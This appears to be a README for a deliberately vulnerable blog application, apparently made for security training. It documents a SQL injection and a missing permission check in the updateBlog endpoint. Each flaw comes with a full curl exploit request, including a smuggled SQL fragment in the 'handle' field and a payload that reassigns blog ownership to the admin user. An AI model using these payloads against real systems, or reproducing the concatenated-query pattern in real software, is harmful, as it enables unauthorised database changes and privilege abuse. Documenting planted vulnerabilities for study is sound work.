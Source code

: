 # Overview

This code base demonstrates the following attacks: ....

# Vulnerability 1: SQL Injection Attack

The code includes an SQL injection attack that allows an attacker to inject arbitrary
commands into the Blog Database. The vulnerable codepath is as follows:

1. HTTP requests sent to the BlogResource's updateBlog() method accepts a "blog" parameter
   on lines 84-119
2. The elements of the Blog are concatenated to form SQL Queries
3. Creative setup of either the Handle string or the Name String can allow a hacker to set parameters they have no business changing, like the unique ID in the database

The vulnerability can be exploited by following the steps below:

1. Create a Blog entity (Curl setup as Admin)
2. Using curl, send the following request to the server:
   (The ID Value in the JSON will need to match the Blog you wish to change)

curl 'http://localhost:8080/api/blogs' -X PUT -H 'Sec-Fetch-Mode: cors' -H 'Origin: http://localhost:8080' -H 'X-XSRF-TOKEN: 70785733-d570-48e0-8aaf-84def302ca70' -H 'Accept-Language: en-US,en;q=0.9' -H 'Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImF1dGgiOiJST0xFX0FETUlOLFJPTEVfVVNFUiIsImV4cCI6MTU3MTcyNjM2OX0.3ZVSufjAGZkIzhRwbF6je4Ol6LPOoTB40OIzkLdXWE5xvDme4FoxyYlgLy0nEr2ZcO8XG8sp1CTQf0X4rrDBhA' -H 'Accept-Encoding: gzip, deflate, br' -H 'Cookie: XSRF-TOKEN=70785733-d570-48e0-8aaf-84def302ca70; JSESSIONID=sbJFD3rLekadRFxvmreQXAF2zplu9e8BGBNEGVJU; io=COdBC5irez3F1xjVAAAG' -H 'Connection: keep-alive' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: application/json, text/plain, _/_' -H 'Referer: http://localhost:8080/blog/5851/edit' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' --data-binary \$'{"id":5851,"name":"aaaaaaaaaaaaaaaaaaa","handle":"I changed Three things\u0021\', id = 5853, name=\'hehehehehe","user":{"id":3,"login":"admin","firstName":"Administrator","lastName":"Administrator","email":"admin@localhost","activated":true,"langKey":"en","imageUrl":"","resetDate":null}}' --compressed

3. The Server will send back the JSON of the updated blog

# Vulnerability 2: Injection Attack

The code includes an injection attack that allows an attacker to inject arbitrary
commands into the Blog Database. The vulnerable codepath is as follows:

1. HTTP requests sent to the BlogResource's updateBlog() method accepts a "blog" parameter
   on lines 84-119
2. The user data to be set is not checked for permissions
3. This allows for any user to reassign the the owner of a blog to another user
4. This can not be done through the web page itself as it does not allow you to assign things to other users, therefore this is an easily misable mistake if you don't test around the UI

The vulnerability can be exploited by following the steps below:

1. Create a Blog entity as User
2. Using curl, send the following request to the server:
   (The ID Value in the JSON will need to match the Blog you wish to change to be owned by the admin)

curl 'http://localhost:8080/api/blogs' -X PUT -H 'Sec-Fetch-Mode: cors' -H 'Origin: http://localhost:8080' -H 'X-XSRF-TOKEN: 70785733-d570-48e0-8aaf-84def302ca70' -H 'Accept-Language: en-US,en;q=0.9' -H 'Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJ1c2VyIiwiYXV0aCI6IlJPTEVfVVNFUiIsImV4cCI6MTU3MTc3OTc1OX0.qlCXpXGVLyGZpEN7PGSpo2FdbuRDqMcWhYc796YoUOi*l2cmauo77xoa56fQA2GYVGMq-v-Cjqps4FUbxGGpYw' -H 'Accept-Encoding: gzip, deflate, br' -H 'Cookie: XSRF-TOKEN=70785733-d570-48e0-8aaf-84def302ca70; JSESSIONID=sbJFD3rLekadRFxvmreQXAF2zplu9e8BGBNEGVJU; io=COdBC5irez3F1xjVAAAG' -H 'Connection: keep-alive' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: application/json, text/plain, */\_' -H 'Referer: http://localhost:8080/blog/5852/edit' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' --data-binary '{"id":5852,"name":"TESTed","handle":"TESTed","user":{"id":3,"login":"admin","firstName":"Administrator","lastName":"Administrator","email":"admin@localhost","activated":true,"langKey":"en","imageUrl":"","resetDate":null}}' --compressed

3. The Server will send back the JSON of the updated blog
